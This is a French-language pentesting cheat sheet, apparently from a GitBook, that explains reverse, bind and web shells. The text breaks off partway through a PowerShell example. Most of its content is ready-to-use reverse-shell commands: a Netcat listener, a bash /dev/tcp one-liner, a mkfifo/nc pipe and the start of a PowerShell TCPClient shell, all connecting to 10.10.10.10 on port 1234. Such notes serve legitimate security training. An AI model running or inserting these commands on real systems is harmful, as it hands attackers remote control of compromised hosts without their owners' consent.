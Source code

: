 ***

## <mark style="color:red;">Types de Shells</mark>

### <mark style="color:blue;">**Introduction**</mark>

***

| **Type de Shell**                                    | **Méthode de Communication**                                                                                    |
| ---------------------------------------------------- | --------------------------------------------------------------------------------------------------------------- |
| <mark style="color:orange;">**Reverse Shell**</mark> | Se connecte à notre système et nous donne le contrôle via une connexion inverse.                                |
| <mark style="color:orange;">**Bind Shell**</mark>    | Attend que nous nous y connections pour nous donner le contrôle.                                                |
| <mark style="color:orange;">**Web Shell**</mark>     | Communique via un serveur web, accepte nos commandes via des paramètres HTTP, les exécute et renvoie la sortie. |

***

### <mark style="color:blue;">Reverse Shell</mark>

**Le Reverse Shell** est une méthode rapide et courante pour obtenir le contrôle d'un hôte compromis.

<mark style="color:green;">**Étapes pour utiliser un Reverse Shell :**</mark>

1.  **Lancer un écouteur Netcat :**

    ```bash
    nc -lvnp 1234
    ```

    * **Options :**
      * `-l` : Mode écoute
      * `-v` : Mode verbose
      * `-n` : Désactiver la résolution DNS
      * `-p` : Numéro de port
2.  **Trouver l'IP de notre système :**

    ```bash
    ip a
    ```
3. **Commande de Reverse Shell :**
   *   <mark style="color:orange;">**Linux (bash) :**</mark>

       {% code title="COMMANDE LINUX" overflow="wrap" lineNumbers="true" fullWidth="true" %}
       ```bash
       bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
       ```
       {% endcode %}
   *   <mark style="color:orange;">**Windows (Powershell)**</mark>&#x20;

       {% code overflow="wrap" lineNumbers="true" %}
       ```powershell
       powershell -nop -c "
       $client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1234);
       $s = $client.GetStream();
       [byte[]]$b = 0..65535 | %{ 0 };
